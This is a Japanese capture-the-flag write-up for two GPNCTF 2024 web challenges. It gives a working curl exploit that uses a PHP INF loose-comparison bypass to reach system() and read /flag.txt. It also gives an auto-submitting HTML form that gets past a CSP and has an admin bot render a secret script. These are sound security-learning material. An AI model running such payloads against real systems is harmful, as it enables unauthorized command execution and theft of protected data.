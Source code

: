 ```yaml
---
title: "GPNCTF Writeup"
id: "GPNCTF-2024-Writeup"
description: "GPNCTFのWriteupです。"
author: "rikoteki"
createdAt: "2024-06-02"
isDraft: false
---
```


Webサイトがプレイリストっぽくてかっこ良い。

Webジャンルの2問だけ説いた。

![image](https://github.com/r1k0t3k1/note/assets/57973603/08778701-fd25-4661-a8db-a0574dbcc0c6)


# [Web] Never gonna tell a lie and type you

シンプルな単一PHPファイルのWebアプリ。

```php
<?php
       ini_set("display_errors",1);
       error_reporting(E_ALL);
//we tought about using passwords but you see everyone says they are insecure thus we came up with our own riddle.
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;

}
//this weird http parameter handling is old we use json
$user_input = json_decode($_POST["data"]);
//attention handling user data is dangerous
var_dump($user_input);

if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
    if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
        else {
            die("Skill issue? Maybe you just try  again?");
        }}
        else {
            echo "<html>";
            echo "<body>";
            echo "<h1>Welcome [to innovative Web Startup]</h1>";
            echo "<p> here we focus on the core values of each website. The backbone that carries the entire frontend</p><br><br>";
            echo "<blink>For this we only use old and trusty tools that are well documented and well tested</blink><br><br>";
            echo "<Big>That is not to say that we are not innovative, our authenticators are ahead of their time.</Big><br><br>";
           echo "<plaintext> to give you an teaser of our skills look at this example of commissioned work we build in a past project </plaintext>";

            echo system("fortune")."<br>";
        }
?>
```
ソースを読むと以下条件を満たすと`$.command`に設定したOSコマンドが実行できる様子。

- UAが`friendlyHuman`である
- `$.user`が`admin🤠`である
- `$.password` == `securePassword($.password)`である

`securePassword`関数の実装を見てみると、`password`が10000以上であることを検証している。
そして、`password`から導出した値と`password`自身を乗算した結果を返している。
`password` < 10000 の検証は0が使えないようにするためだろう。

```php
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;

}
```

ただし、`INF`の検証が行われていないため`securePassword`関数に`INF`を渡すと`INF`が返ってくる。

![image](https://github.com/r1k0t3k1/note/assets/57973603/fb16b9f6-e43a-4d75-a9af-36eb5fd8319c)

以上のことから`password`に、評価されるとINFになるような数値を指定することでOSコマンドが実行できる。

```bash
curl -X POST -H 'User-Agent: friendlyHuman'  --data-binary $'data={\"user\":\"admin\xf0\x9f\xa4\xa0\",\"password\":1e309,\"command\":\"cat /flag.txt\"}'  https://the-sound-of-silence--qzeng-1488.ctf.kitctf.de
```

## flag

```
GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}
```

# [Web] todo

HTMLをSubmitすると管理者botがフラグ付きでアクセスしてくれる系の問題。

<details>
<summary>server.js</summary>

```js
const express = require('express');
const puppeteer = require('puppeteer');

const randomBytes = require('crypto').randomBytes(32).toString('hex');

const fs = require('fs');

const flag = process.env.FLAG || fs.readFileSync('./flag', 'utf8');
const script = fs.readFileSync('./script.js', 'utf8');

const app = express();
app.use(express.urlencoded({ extended: true }));

app.get('/', (req, res) => {
    res.send(`
        <h1>TODO</h1>
        <form action="/chal" method="post">
            <input type="text" name="html" placeholder="HTML">
            <button type="submit">Submit to /chal</button>
        </form>
        <hr>
        <form action="/admin" method="post">
            <input type="text" name="html" placeholder="HTML">
            <button type="submit">Submit to /admin</button>
        </form>
    `);
});

app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});

app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});

app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});

app.listen(1337, () => console.log('listening on http://localhost:1337'));
```
</details>

`/admin`にHTMLをSubmitすると管理者botがCookieにフラグを付与してアクセスしてくれる。
が、Cookie自体はHttpOnly属性が付与されている。

その他の挙動として、管理者botがアクセスしたページのスクリーンショットを撮影し、`/admin`のレスポンスとして返してくれるため、
管理者botが閲覧したページの描画結果が確認できる。

```js
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});

```

フラグはどこにあるかというと`/script.js`というJavaScriptファイル内にコメントアウトされている。

```js
class FlagAPI {
    constructor() {
        throw new Error("Not implemented yet!")
    }

    static valueOf() {
        return new FlagAPI()
    }

    static toString() {
        return "<FlagAPI>"
    }

    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}⏎
```

このフラグ自体はダミーフラグであり、`/script.js`へのアクセスに管理者権限のCookieが付与されていた場合のみ、
正規のフラグに置換されてレスポンスされる。

```js
app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});
```

また、管理者botにアクセスさせるページには以下のようなCSPが設定される。

```js
app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});
```

単純にJavaScript Hijack問題かと思ったが、フラグを出力する関数自体がコメントアウトされているため、読み込み元のJavaScriptで実行することができない。

このサイトの挙動を思い出すと、管理者botがアクセスしたページの描画結果が確認できるので、関数が実行できなくてもコメントアウトされているソース自体を見れるのではないかと考えた。

具体的には管理者botに閲覧させたHTMLから`/script.js`へのform submitを発生させ、テキストとして描画させる。

CSPに`default-src: none`が付与されているが`form-action`のフォールバックは無いため問題ない。

`/admin`へ送信するHTMLは以下

```html
<html>
    <body>
      <form id="form" action="/script.js" method="get"></form>
      <script>
        document.getElementById("form").submit();
      </script>
    </body>
</html>
```

このHTMLを送信するとフラグを含んだ画像が確認できる。

![image](https://github.com/r1k0t3k1/note/assets/57973603/a50bf8de-f075-4d8f-a62e-69618611b064)

## flag

```
GPNCTF{N0_C0MM3NT_b7c62b1e}
```
